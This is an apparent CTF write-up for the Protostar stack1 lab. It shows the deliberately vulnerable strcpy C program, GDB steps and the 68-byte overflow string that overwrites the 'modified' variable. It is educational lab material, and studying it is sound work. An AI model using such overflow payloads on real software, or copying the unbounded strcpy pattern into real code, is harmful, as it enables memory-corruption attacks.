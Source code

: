 ```yaml
---
title: "Protostar stack1 walkthrough"
date: 2020-05-21
tags: [ctf, protostar, stack1, walkthrough]
header:
  image: "/images/protostar/protostar.png"
---
```



## Protostar exercises - [stack1](https://exploit-exercises.lains.space/protostar/stack1/)

#### About
This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

This level is at /opt/protostar/bin/stack1

Hints

If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.
Protostar is little endian

#### Source code:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

#### Procedure:

Similar to the previous one, the value of 'modified' variable needs to be changed. But here, it need to be changed to a specific value.

There is no `gets` call in this program. Instead, `strcpy` is used to copy the argument into buffer. 

##### Vulnerability:

`strcpy` is used to copy a string. if the destination string of a `strcpy()` is not large enough, then buffer overflow happens. We can use this to overflow the 64 bit buffer and write into the memory address where 'modified' is stored.

##### Disassembly:

![disassembly]({{site.url}}{{site.baseurl}}/images/protostar/stack1/disassembly.png)

We can see that 'modified' variable is at $esp+0x5c. Lets put breakpoints before and after `strcpy` and create hooks

```
break *0x080484a2
break *0x080484a7
define hook-stop
>info registers
>x/24wx $esp
>x/2i $eip
>end
```

Lets run with argument AAAAAAAA
```
r AAAAAAAA
```

We can see that addresses 0xbffff75c and 0xbffff760 are overwritten with A's. Also, 'modified' is stored at 0xbffff79c and has value of 0x00000000

![registers]({{site.url}}{{site.baseurl}}/images/protostar/stack1/registers.png)

We need to overwrite from 0xbffff75c to 0xbffff79c. That is 40 + 4 words (68 bytes)
Lets create a string of 68 bytes and make sure variable is overwritten
` r AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIII`

![overwrite]({{site.url}}{{site.baseurl}}/images/protostar/stack1/overwrite.png)

We can see that 0xbffff79c now has a value of 0x49494949 or IIII

Now we need to change I's in string to 0x61626364 (abcd)
Lets run with this argument 
`r AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHabcd`

![try]({{site.url}}{{site.baseurl}}/images/protostar/stack1/try.png)

Now we can see that 'modified' is changed to 0x64636261. This is because prostar is little endian (as mentioned in hints). Lets reverse abcd to dcba and try

`r AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHdcba`

![done]({{site.url}}{{site.baseurl}}/images/protostar/stack1/done.png)

Now, the variable has 0x61626364 and the program has passed
